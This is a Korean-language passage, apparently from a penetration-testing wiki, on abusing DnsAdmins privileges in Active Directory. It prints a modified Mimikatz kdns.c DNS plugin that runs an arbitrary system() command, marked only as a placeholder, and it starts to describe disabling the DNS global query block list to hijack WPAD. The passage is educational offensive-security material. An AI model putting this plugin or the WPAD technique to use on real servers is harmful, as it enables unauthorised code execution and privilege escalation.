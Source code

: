 ***

### Mimilib.dll 사용 <a href="#mimilib-dll" id="mimilib-dll"></a>

이 [게시물에서](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) 자세히 설명한 것처럼, `Mimikatz` 도구 개발자가 만든 [mimilib.dll을](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) 활용하여 역셸 원라이너 또는 원하는 다른 명령을 실행하도록 [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) 파일을 수정하여 명령 실행 권한을 얻을 수도 있습니다.

코드: c

```
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

***

### WPAD 레코드 만들기 <a href="#wpad" id="wpad"></a>

DnsAdmins 그룹 권한을 남용하는 또 다른 방법은 WPAD 레코드를 만드는 것입니다. 이 그룹의 멤버가 되면 기본적으로 이 공격을 차단하는 [글로벌 쿼리 차단 보안을 비활성화할](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps) 수 있는 권한이 부여됩니다. Server 2008에서는 DNS 서버의 전역 쿼리 차단 목록에 추가하는 기능이 처음 도입되었습니다. 기본적으로 WPAD(웹 프록시 자동 검색 프로토콜)와 ISATAP(사이트 내 자동 터널 주소 지정 프로토콜)가 글로벌 쿼리 차단 목록에 있습니다. 이러한 프로토콜은 하이재킹에 매우 취약하며, 모든 도메인 사용자는 이러한 이름이 포함된 컴퓨터 개체 또는 DNS 레코드를 만들 수 있습니다.
